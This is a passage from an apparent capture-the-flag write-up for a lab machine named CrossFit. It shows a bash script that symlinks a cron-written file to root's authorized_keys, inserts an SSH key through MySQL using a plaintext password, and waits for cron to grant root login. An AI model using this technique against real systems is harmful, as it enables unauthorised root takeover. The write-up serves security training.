 
#### Generate Symlink

Next I need to create the symlink. I’ll pick an ID kind of randomly (223 works), and then get the hash to create the filename:

```

id=223
fn=$(echo -n "${randint}${id}" | md5sum | cut -d' ' -f1)
echo "[+] Filename will be: /var/local/$fn"
ln -s /root/.ssh/authorized_keys /var/local/$fn
echo "[+] Created symlink to /root/.ssh/authorized_keys"

```

#### Update Database

The next part of the script will update the database with the id 223 and the rest being the parts of my public SSH key:

```

ssh="ssh-ed25519"
key="AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d"
user="nobody@nothing"
echo "[*] Writing to DB: insert into messages(id, name, email, message) values ($id, '$ssh', '$user', '$key')"
mysql -u crossfit -poeLoo~y2baeni crossfit -e "insert into messages(id, name, email, message) values ($id, '$ssh', '$user', '$key')"

```

#### Wait

So I don’t have to keep checking the time, I’ll run a little countdown timer until the next cron runs:

```

secleft=$((60 - $(date +%-S)))
echo "[*] Sleeping $secleft seconds until cron"
nextmin=$((1 + $(date +%-M)))
while [[ $(date +%-M) -ne $nextmin ]]; do
    echo -en "\r[*] $((60 - $(date +%-S))) seconds left"
    sleep 0.5
done
echo -e "\r[*] Try logging in as root with SSH key"

```

### Exploit

I’ll upload the [final script](/files/crossfit-root.sh) to CrossFit and run it:

```

isaac@crossfit:/dev/shm$ ./root.sh
[*] Writing c code to get "random" int
[+] Got random int: 1884167658
[*] Cleaning up code
[+] Filename will be: /var/local/56bd8aef3ca539e098fdb7c135c31544
[+] Created symlink to /root/.ssh/authorized_keys
[*] Writing to DB: insert into messages(id, name, email, message) values (223, 'ssh-ed25519', 'nobody@nothing', 'AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d')
[*] Sleeping 26 seconds until cron
[*] Try logging in as root with SSH key

```
